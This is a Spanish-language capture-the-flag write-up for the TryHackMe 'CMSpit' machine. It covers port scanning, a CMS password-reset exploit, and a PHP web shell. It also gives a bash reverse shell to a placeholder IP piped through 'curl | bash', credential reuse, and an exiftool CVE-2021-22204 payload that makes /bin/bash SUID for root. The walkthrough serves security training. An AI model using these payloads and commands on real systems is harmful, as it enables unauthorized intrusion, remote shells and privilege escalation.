| NOMBRE      | Plataforma | OS     |
| :---        |    :----:   |  ---: |
| CMSpit      | TRYHACKME   | LINUX   |


## ESCANEO DE PUERTOS 

- Realizamos un escaneo de puertos con la herramienta nmap, en esta caso lo podemos realizar con muchas otras pero yo la realizaré con nmap


```bash
  (kali㉿Hacknet)-[~/…/tryhackme/maquinas/CMSpit/recognition]
  Sie7e>$ nmap -p- --open -min-rate 5000 -vvv -n -Pn 10.10.207.156  
```
- **-p-** : Es el rango de puertos las cuales va escanear.
- **--open** : Solo nos reportará los puertos que tienen status "open".
- **--min-rate** : Indica la tasa minima de paquetes, esto acelerará el escaneo. Esto puede tener muchas deficiencias cuando la condición de la red es muy mala y en ese caso es mejor realizar un **T4** o **T5**. 
- **-vvv** : Con este parametro podemos ver la output mientras va escaneando y asi adelantar un poco mas de trabajo.
- **-n** : Parametro que indica que no deseamos que realiza host discovery, con esto activo puede demorar un poco mas el escaneo.

```bash
  Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
  Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-19 12:30 EDT
  Initiating Connect Scan at 12:30
  Scanning 10.10.207.156 [65535 ports]
  Discovered open port 80/tcp on 10.10.207.156
  Discovered open port 22/tcp on 10.10.207.156
  Completed Connect Scan at 12:31, 27.68s elapsed (65535 total ports)
  Nmap scan report for 10.10.207.156
  Host is up, received user-set (0.21s latency).
  Scanned at 2022-03-19 12:30:46 EDT for 28s
  Not shown: 63620 filtered tcp ports (no-response), 1913 closed tcp ports (conn-refused)
  Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
  PORT   STATE SERVICE REASON
  22/tcp open  ssh     syn-ack
  80/tcp open  http    syn-ack

  Read data files from: /usr/bin/../share/nmap
  Nmap done: 1 IP address (1 host up) scanned in 27.74 seconds
```

- NMAP nos reporta dos puertos el 22 y 80, entonces con nmap vamos a escanear los servicios y versiones que se estan ejecutando en estos puertos.

```bash
  (kali㉿Hacknet)-[~/…/tryhackme/maquinas/CMSpit/recognition]
  Sie7e>$ nmap -p22,80 -sCV -vv -Pn -oN servicesScan.nmap 10.10.207.156
```
- **-p22,80**  : Puertos en espacificos que deseamos escanear.
- **-sC** : Scripts por defecto que se usaran para la enumeración.
- **-sV** :Enumerar las versiones y servicios
- **-sCV** : Otra manera de indicar **-sC** y **-sV** de manera junta.
- **-oN** : Para que nos guarde la información enumerada en formato nmap.

```bash
  # Nmap 7.92 scan initiated Fri Mar 18 13:40:54 2022 as: nmap -p22,80 -sCV -vv -Pn -oN servicesScan.nmap 10.10.207.156
  Nmap scan report for 10.10.207.156
  Host is up, received user-set (0.22s latency).
  Scanned at 2022-03-18 13:40:55 EDT for 22s

  PORT   STATE SERVICE REASON  VERSION
  22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey: 
  |   2048 7f:25:f9:40:23:25:cd:29:8b:28:a9:d9:82:f5:49:e4 (RSA)
  | ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQD7acH8krj6oVh6s+R3VYnJ/Xc8o5b43RcrRwiMPKe7V8V/SLfeVeHtE06j0PnfF5bHbNjtLP8pMq2USPivt/LcsS+8e+F5yfFFAVawOWqtd9tnrXVQhmyLZVb+wzmjKe+BaNWSnEazjIevMjD3bR8YBYKnf2BoaFKxGkJKPyleMT1GAkU+r47m2FsMa+l7p79VIYrZfss3NTlRq9k6pGsshiJnnzpWmT1KDjI90fGT6oIkALZdW/++qXi+px6+bWDMiW9NVv0eQmN9eTwsFNoWE3JDG7Aeq7hacqF7JyoMPegQwAAHI/ZD66f4zQzqQN6Ou6+sr7IMkC62rLMjKkXN
  |   256 0a:f4:29:ed:55:43:19:e7:73:a7:09:79:30:a8:49:1b (ECDSA)
  | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEnbbSTSHNXi6AcEtMnOG+srCrE2U4lbRXkBxlQMk1damlhG+U0tmiObRCoasyBY2kvAdU/b7ZWoE0AmoYUldvk=
  |   256 2f:43:ad:a3:d1:5b:64:86:33:07:5d:94:f9:dc:a4:01 (ED25519)
  |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKYUS/4ObKPMEyPGlgqg6khm41SWn61X9kGbNvyBJh7e
  80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
  |_http-server-header: Apache/2.4.18 (Ubuntu)
  |_http-trane-info: Problem with XML parsing of /evox/about
  | http-methods: 
  |_  Supported Methods: GET HEAD POST OPTIONS
  | http-title: Authenticate Please!
  |_Requested resource was /auth/login?to=/
  |_http-favicon: Unknown favicon MD5: C9CD46C6A2F5C65855276A03FE703735
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

  Read data files from: /usr/bin/../share/nmap
  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  # Nmap done at Fri Mar 18 13:41:17 2022 -- 1 IP address (1 host up) scanned in 23.06 seconds
```

## SITIO WEB
  Se encuentra un sitio web con un login, de la cual no tenemos credenciales.

  

  Enumerando un poco no topamos un directorio que nos muestra la versión


  

  Teniendo la versión, buscamos un exploit y nos topamos con uno. Este permite enumerar usuarios y cambiar la contraseña.

## CVE-2020-35847 - CVE-2020-35848



  Nos lo traemos a nuestro direcorio de trabajo y ejecutamos. Enumeramos los usuarios existentes:
    
  - admin
  - darkStart7471
  - skidy
  - ekoparty

  De los cuales podemos cambiar las contraseñas. En caso nuestro cambiaremos la contraseña del usuario admin.



## WEB SHELL
Estando logueados podemos enumerar el CMS para realizar ejecución de comandos dentro del sistema. En este apartado vemos un campo en el cual podemos subir un archivo.


Vemos un boton para poder subir un archivo



Vamos a subir una [web shell](https://www.acunetix.com/blog/articles/web-shells-101-using-php-introduction-web-shells-part-2/) en php. 

shell.php
```php
<?php 
   echo(system($_GET['cmd']));
?>
```

Este archivo en php(web shell) nos permitira ejecutar comandos en el sistema victima. 



Ya tenemos la shell.php subida. 



Necesitamos la ruta de donde se almacenó nuestro shell.php y para eso nos vamos al apartado siguiente



Si le pasamos el comando **ls -la**, vemos que los lista los archivos existentes dentro del sistema víctima



## GANAR ACCESO A LA MÁQUINA

Para obtener el acceso a la maquína, vamos a crearnos un archivo index.html que contendra lo siguiente. 

index.html

```html
bash -i >& /dev/tcp/YOU-IP/443 0>&1
```
Esto se puede realizar de muchas maneras ya que tenemos ejecución de comandos a nivel del sistema víctima.

Luego iniciamos un servidor en python indicandole el puerto en donde va ejecutarse.

```python
python3 -m http.server 80
```

Y ponernos a la escucha en el puerto 443 para ganar acceso a la máquina, ya que en el archivo index.html le indicamos que a ese puerto nos enviará una shell.

```bash
ncat -lnvp 443
```



En la url ponemos lo siguiente:

```html
http://10.10.207.156/storage/uploads/2022/03/19/62360bf9715d0shell.php?cmd=curl http://IP | bash 
```

Realizamos un curl a nuestro servidor que esta con python y lo vamos a interpretar con bash, esto noes permite entablarnos un shell a nivel de terminal




Una vez ganado acceso, realizamos un tratamiento de la tty, para tener un mejor manejo de la consola y que esta sea iteractiva

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
reset xterm

export TERM=xterm
export SHELL=/bin/bash 

stty rows <your rows terminal> columns <your columns terminal>
```

## USER WWW-DATA

Enumerando los directorios, en /home/stux encontramos un archivo **.dbshell**



En este archivo encontramos credenciales del usuario **stux** que usa en una base de datos. Entonces podemos probar si se reutilizan las credenciales



Desde luego se estan reutilizando las credenciales

## USER STUX
Teniendo las credenciales vamos a enumerar los privilegios que tiene este usuario



Si nos vamos a [gtfobins](https://gtfobins.github.io/gtfobins/exiftool/#sudo), vemos una manera de obtener los archivos. Haciendo uso del siguiente comando
```bash
sudo exiftool -filename=/tmp/root.txt /root/root.txt
```
Ya tenemos nuestra flag, pero lo que queremos es ganar privilegios de usuario root 

## CVE-2021-22204-exiftool

Buscando en la web y damos con un blog en la que explica la vulnerabilidad y como podemos ejecutar comandos de manera manual.

**BLOG** : [cve-2021-22204-exiftool-rce](https://blog.convisoappsec.com/en/a-case-study-on-cve-2021-22204-exiftool-rce/)



**Exploit** que podemos usar para generar de manera automatizada nuestra imagen con el payload indicado.


Vamos a instalar la djvulibre-bin

```bash
(kali㉿Hacknet)-[~/…/tryhackme/maquinas/CMSpit/exploit]
Sie7e>$ sudo apt install djvulibre-bin
```
Tambien necesitaremos un imagen  y nuestro payload que queremos que ejecute root.

Payload, contendra lo siguiente:
```bash 
(metadata "\c${system('chmod +s /bin/bash')};")
```
Con esto vamos a la /bin/bash para que sea SUID y con bash -p podamos ser usuario root.


Ejecutamos bzz:

```bash
(kali㉿Hacknet)-[~/…/tryhackme/maquinas/CMSpit/exploit]
Sie7e>$ bzz payload payload.bzz
```

Creamos un exxploit.djvu:

```bash
(kali㉿Hacknet)-[~/…/tryhackme/maquinas/CMSpit/exploit]
Sie7e>$ djvumake exploit.djvu INFO='1,1' BGjp=/dev/null ANTz=payload.bzz
```



**configfile**



Ahora solo le pasamos el payload a nuestra imagen y cuando se ejecute con exiftool ejecutaremos el comando que le indicamos en nuestro payload
```bash
(kali㉿Hacknet)-[~/…/tryhackme/maquinas/CMSpit/exploit]
Sie7e>$ exiftool -config configfile '-HasselbladExif<=exploit.djvu' image.jpg
```

Subimos nuestra imagen con al maquina victima, hay muchas maneras de como subirlo (pyhton, ncat).



La bash **no es SUID**



Ejecutamos exiftool ccon nuestra imagen, y deberia de haber cambiado los permisos de la **/bin/bash**



La **/bin/bash** ahora es SUID 



## USER ROOT




